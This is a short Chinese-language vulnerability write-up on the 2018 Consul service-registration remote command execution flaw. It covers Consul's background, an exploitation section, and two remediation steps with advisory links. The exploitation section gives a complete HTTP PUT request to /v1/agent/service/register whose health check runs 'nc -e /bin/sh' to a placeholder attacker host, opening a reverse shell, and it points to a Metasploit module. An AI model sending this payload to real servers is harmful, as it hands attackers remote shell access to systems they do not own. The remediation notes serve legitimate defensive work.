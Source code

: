 ### 一 漏洞描述
2018年11月27日，Consul在官方博客中发布了关于Consul工具在特定配置下可能导致远程命令执行（RCE）漏洞的公告，并描述了防护该漏洞的配置方案。  
Consul是HashiCorp公司推出的一款开源工具，用于实现分布式系统的服务发现与配置。同其他分布式服务注册与发现的方案相比，Consul提供的方案更为一站式。Consul内置了服务注册与发现框架、分布一致性协议实现、健康检查、Key-Value存储、多数据中心方案，不再需要依赖其他工具（例如ZooKeeper等），使用方式也相对简单。  
Consul使用Go语言编写，因此具有天然的可移植性（支持Linux、Windows和Mac OS X系统），且安装包中仅包含一个可执行文件，便于部署，可与Docker等轻量级容器无缝配合。

### 二 漏洞利用
验证
![img.png](img.png)

利用
```
PUT /v1/agent/service/register HTTP/1.1
Host: 目标地址
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64)
X-Consul-Token: 
Content-type: application/json
Connection: close
Content-Length: 324
 
{
    "ID": "bpPeMfZuAN",
    "Name": "bpPeMfZuAN",
    "Address":"127.0.0.1",
    "Port":80,
    "check":{
        "Args": ["sh", "-c","nc -e /bin/sh vps_ip port"],
        "interval":"10s",
        "Timeout":"86400s"
    }
}
```
exp参考: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/consul_service_exec.rb


### 三 漏洞修复
1 禁用Consul服务器上的脚本检查功能  
2 对/v1/agent/service/register 禁止PUT方法

> 参考链接:   
> msf exp: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/consul_service_exec.rb  
> 阿里云公告: https://www.alibabacloud.com/help/zh/web-application-firewall/latest/rce-vulnerability-in-consul-service-apis    
> https://blog.csdn.net/qq_44159028/article/details/115870000  
> 官方修复文章: https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations
